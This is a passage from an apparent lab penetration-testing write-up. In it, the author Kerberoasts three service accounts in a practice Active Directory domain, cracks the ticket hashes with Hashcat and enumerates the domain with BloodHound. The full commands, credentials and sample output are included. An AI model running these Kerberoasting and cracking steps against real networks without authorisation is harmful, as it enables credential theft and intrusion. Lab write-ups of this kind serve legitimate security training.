 The output indicated that I had three potential accounts to target:

* `SANSA.STARK`
* `JON.SNOW`
* `SQL_SVC`

I re-ran the tool while specifying the `-request` and `-outputfile <path>` arguments to request Kerberos tickets for all three accounts and save them to a file.

```
# GetUserSPNs.py north.sevenkingdoms.local/samwell.tarly:Heartsbane -dc-ip 10.2.10.11 -request -outputfile creds/north.kerbs
# cat creds/north.kerbs

$krb5tgs$23$*sansa.stark$NORTH.SEVENKINGDOMS.LOCAL$north.sevenkingdoms.local/sansa.stark*$56b7b748e73234176b5d3123d029c5f4$58bbd4b730dcb20a557a300087036f07ce219faaa7365d015<snip>
$krb5tgs$23$*jon.snow$NORTH.SEVENKINGDOMS.LOCAL$north.sevenkingdoms.local/jon.snow*$01a86a48e11fc1f757c0347a0d3075ba$f5f96ccaf14a782728c78d0fb9b24cc843341c82f9d484e831915fb<snip>
$krb5tgs$23$*sql_svc$NORTH.SEVENKINGDOMS.LOCAL$north.sevenkingdoms.local/sql_svc*$f2abec2741b3f30e08128af383e6447f$b6580155397a68855744570f1e05e1505b04ed982f11543df8e642023<snip>
```

I threw these at my cracking rig setup to see if anything cracks. My cracking rig is nothing special, it is literally my gaming PC with a 1060 in it. It is not very powerful but it is sufficient for cracking easy hashes. Also, I use Hashcat. Here’s the command I used to run these hashes through Hashcat:

```
Hashcat.exe -m 13100 -a 0 -O -w 4 --force --status -r rules\OneRuleToRuleThemAll.rule -o cracked-output.txt hashes.txt PASSWORD_LISTS*.txt
```

Without getting too much into it, the command spits out successful cracks to the `cracked-output.txt` file. The hashes for cracking are in `hashes.txt`. The `-m 13100` argument denotes the type of hash I am supplying, Kerberoast hashes in this case. The `-r` argument configured the various rules for Hashcat, and `PASSWORD_LISTS*.txt` is pretty self explanatory.

While I let these hashes crack in the background, I went ahead and proceeded with authenticated enumeration.

### Bloodhound

To learn more about the environment and each domain’s structure, I turned to my favorite tool, Bloodhound. Bloodhound essentially collects information about a target domain by performing various queries, mainly LDAP, and allows for browsing of the data via a mind-map-like GUI.

*Note: at the time of writing this, I am using a `bloodhound-ce` branch of the [Bloodhound.py](https://github.com/dirkjanm/BloodHound.py/tree/bloodhound-ce). This is because I’ve moved over to using Bloodhound-CE and this version of `bloodhound.py` supports collection of data for it.*

First I ran the Bloodhound data collection script against the `NORTH.SEVENKINGDOMS.LOCAL` domain.

```
# bloodhound-python -u samwell.tarly -p Heartsbane -d north.sevenkingdoms.local -ns 10.2.10.11 -c All --zip

INFO: Found AD domain: north.sevenkingdoms.local
WARNING: Could not find a global catalog server, assuming the primary DC has this role
If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (winterfell.north.sevenkingdoms.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: winterfell.north.sevenkingdoms.local
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 2 computers
INFO: Connecting to GC LDAP server: winterfell.north.sevenkingdoms.local
INFO: Connecting to LDAP server: winterfell.north.sevenkingdoms.local
```